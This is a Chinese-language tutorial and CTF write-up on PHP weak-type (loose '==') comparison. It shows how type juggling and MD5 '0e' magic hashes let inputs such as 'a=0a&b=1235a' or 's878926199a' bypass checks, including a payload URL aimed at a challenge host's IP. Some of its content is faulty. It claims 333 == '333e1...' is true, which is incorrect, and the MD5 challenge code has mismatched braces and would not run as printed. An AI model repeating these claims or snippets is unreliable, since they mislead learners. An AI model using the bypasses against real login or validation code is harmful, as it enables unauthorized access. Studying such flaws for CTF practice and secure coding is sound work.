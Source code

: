 # php弱类型比较

php有两种不同比较模式：

- 松散比较
- 严格比较

### 松散比较

​	松散比较用 '==' 表示，只比较两变量（或是常量）的值，不比较类型(> , < 也有此机制)

​	由于这种机制，会有以下结果：

![list](list.png)

[图片来源于：php官方](https://www.php.net/manual/zh/types.comparisons.php)

这使得这种比较方式存在一个弱化漏洞：

```
示例：example1 == example2


```

​	如果这里的 **example1** 是数字，而 **example2** 是前几位为数字的字符串
则会将 **example2** 弱化为数字,具体弱化规则如下

例如：

```php
333 == '333fhjkashfjhaskjfhkasf241'

/*
php会将'333fhjkashfjhaskjfhkasf241'弱化为数字333

从而得到结果为TRUE
*/
```

**PS：**

- 如果字符串数字后为 **'E'** 或者 **'e'**， 会将其视为科学计数法

例如：

```php
333 == '333e3dzfavzxv' //false
333 == '333e1dzfavzxv' //true

```



- 如果字符串数字后为 '.' ，会将其视为浮点型

```php
333 == '333.1asfasfasx'
/*
结果为FALSE
*/
```



- 如果字符串数以**'0X'** 开头，则会将其视为16进制数再转换为十进制比较

```php
"0x1e240"=="123456" //true
"0x1e240"==123456 //true
```



### 弱化特性的妙用

#### 攻防世界web新手区的一道题  

（用来表示一下弱化bug的威力）

```php
﻿<?php
show_source(__FILE__);
include("config.php");
$a=@$_GET['a'];
$b=@$_GET['b'];
if($a==0 and $a){     //此条件解读为：变量a与0松散比较为真 并且 a不为空且不为0
    echo $flag1;
}
if(is_numeric($b)){   // is_numeric()函数用于检测变量是否为 数字 或数字字符串。我们不能使其成立
    exit();
}
if($b>1234){        //这里是返回flag2的条件。
    echo $flag2;
}
?>
/*
	初步分析一下是要我们上传表单中的a,b来满足返回flag的条件。
	分析后，只需上传满足条件的a，b值即可
	a = 0a
	b = 1235a
	
*/
```

```
payload:
http://124.126.19.106:55985/index.php?a=0a&b=1235a
```

得到flag.

---

#### 简单的MD5绕过

```php
<?php
$md51 = md5('QNKCDZO');//将此字符串加密，得0e848240448830537924465865611904
$a = @$_GET['a'];
$md52 = @md5($a);
if(isset($a))
{	//下面条件是a明文不等于QNKCDZO 密文一样
	if($a != 'QNKCDZO' && $md51 == $md52){ 
		echo "nctf{**************}"; //返回flag
	else{
	echo "false!!!";
}
}
else
{
    echo "pleacs input a";
}
}
?>
//题目摘自：https://blog.csdn.net/Ljt101222/article/details/81135431//
```

综上分析，因为 0e 视为科学计数法恒为0，我们可以任意选取密文为 0e 开头的且明文不等于'QNKCDZO'的a值。

搜了一下以**'0e'**开头的MD5密文，有很多

**取a = s878926199a**

**密文md52 = 0e545993274517709034328855841020**

即可绕过验证

